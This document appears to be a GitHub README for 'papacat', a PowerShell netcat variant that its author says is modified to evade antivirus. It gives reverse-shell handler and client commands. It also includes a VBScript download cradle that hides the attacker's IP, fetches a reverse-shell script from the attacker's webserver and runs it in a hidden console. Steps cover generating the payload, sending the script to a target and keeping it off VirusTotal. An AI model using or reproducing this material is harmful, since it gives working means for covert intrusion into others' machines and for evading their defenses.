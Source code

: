      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666
```

### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666
```

### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# Automation - Obfuscation ( @Meterpeter )

<br />

### [update.vbs] download crandle
```vbscript
' Author: @r00t-3xp10it (ssa)
' Application: papacat download crandle
' Description:
'   This VBS will download Trigger.ps1 (rev tcp shell) from attacker webserver
'   imports module and executes module in a hidden console. ( background )
' ---

dIm Char,Cmd,Layback
Char="@!COLOMBO@!"+":007:VIRIATO@!"+"NAVIGATOR@!"
Layback=rEpLaCe(Char, "@!", ""):Cmd=rEpLaCe(Layback, ":007:", "")

set ObjConsole = CreateObject("Wscript.Shell")
ObjConsole.Run("powershell.exe cd $Env:TMP;iwr -Uri http://"+Cmd+"/Trigger.ps1 -OutFile Trigger.ps1;Import-Module -Name .\Trigger.ps1 -Force;Trigger-c Server@Local@host -e cmd.exe -p 666"), 0
}
```

<br />

### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```


### Generate - Cmd Client (payload) Obfucated
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -g > Trigger.ps1
```

<br />

## The next section requires using terminal to execute commands ...
- Get Local host adress to config the crandle
- replace <b><i>8080</i></b> by <b><i>apache\http.server</i></b> port (webserver)
```powershell
$Local_Host = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$FirstRange = $Local_Host[0,1,2,3,4] -join ''                          # 192.1   - COLOMBO
$SeconRange = $Local_Host[5,6,7,8] -join ''                            # 68.1    - VIRIATO
$TrithRange = $Local_Host[9,10,11,12,13,14,15,16,17,18,19,20] -join '' #.72
$LastRanges = "$TrithRange" + ":" + "8080" -join ''                    #.72:8080 - NAVIGATOR
```
- Replace the attacker ip addr (obfuscated\split) on vbs crandle
```powershell
((Get-Content -Path "update.vbs" -Raw) -Replace "VIRIATO","$SeconRange")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "COLOMBO","$FirstRange ")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "NAVIGATOR","$LastRanges")|Set-Content -Path "update.vbs" 
((Get-Content -Path "update.vbs" -Raw) -Replace "Server@Local@host","$Local_Host")|Set-Content -Path "update.vbs" 
``` 


<br />

- start the handler `Import-Module -Name .\papacat.ps1 -Force;papacat -l -p 666`
- Store update.vbs + copy Trigger.ps1 on attacker webserver (port 8080)
- send update.vbs url to target to trigger the client download (Trigger.ps1)
- execute update.vbs on target machine to get the connection back

![papacat](https://user-images.githubusercontent.com/23490060/155600050-539eeac6-26ee-46e0-a8eb-061daac5e38c.png)

<br /><br />

### URL
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

## Final Notes
Dont Test this on VirusTotal or similar websites ...
